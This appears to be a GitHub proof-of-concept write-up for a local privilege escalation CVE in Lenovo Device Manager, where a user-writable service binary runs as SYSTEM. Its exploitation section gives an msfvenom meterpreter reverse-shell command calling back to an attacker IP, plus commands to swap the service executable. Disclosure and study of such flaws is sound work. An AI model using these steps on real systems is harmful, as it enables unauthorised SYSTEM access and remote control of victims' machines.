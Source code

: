 # CVE-2025-2502 — Lenovo Device Manager: Local Privilege Escalation (POC)

## Vulnerability Overview

While studying local privilege escalation techniques in a Windows lab, I installed Lenovo Device Manager to inspect its installed components. Browsing the ProgramData modules out of curiosity, I noticed oddly permissive ACLs on the module directories — files downloaded by the application were writable by standard users.

That raised a red flag: if a service binary stored in such a directory runs as LocalSystem, and a non-privileged user can alter the file content, a simple replace-and-reboot could make the service execute attacker-controlled code as SYSTEM.

## TL;DR

A permissions flaw in Lenovo Device Manager (all versions observed) grants non-privileged users **F (Full) control** over downloaded tool binaries under `C:\ProgramData\Lenovo\devicecenter\modules\…`. A privileged service (`KPICService_Lenovo`) loads one such binary as LocalSystem; because an unprivileged user can replace that binary on disk, the service will start the replaced binary as SYSTEM after a reboot — enabling local privilege escalation.

![Vulnerability Overview](https://github.com/user-attachments/assets/b93b76b1-f2f2-436f-a5dd-72f4248600af)

## Lab Setup & Reproduction

### 1. Setup Lab Environment

- Host a Windows VM and take a snapshot
- Install Lenovo Device Manager and the AI Picture plugin (vulnerable version)
- Ensure the VM is isolated from production networks

![Lab Setup](https://github.com/user-attachments/assets/9fcdeeaf-3600-4dc7-b646-6e7e8bc78c5a)

### 2. Confirm Service & Permissions

Inspect the service configuration and file permissions:

**Service Location:**

C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe


![Service Configuration](https://github.com/user-attachments/assets/ef41db4c-c148-4512-ad15-a8eb82d14427)

![File Permissions](https://github.com/user-attachments/assets/e33ef6fe-910d-48cc-beab-0f4d2f841f6e)

### 3. Validate Replace-on-Disk Scenario

With the system booted into a state where the service process is locked, confirm an unprivileged account can move or rename the original `kpicservice.exe` file.

## Practical Exploitation Steps

### Step 1: Generate Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=4444 -f exe -o kpicservice.exe

# Move original file
move C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe kpicservice.exe.backup

# Replace with payload
move Desktop\kpicservice.exe C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe

###Trigger Exploitation
Reboot the device

The service automatically starts the replaced kpicservice.exe (payload)

Obtain SYSTEM privileges

https://github.com/user-attachments/assets/35d8f450-356e-47b0-b4dd-41f5bbe6d31b
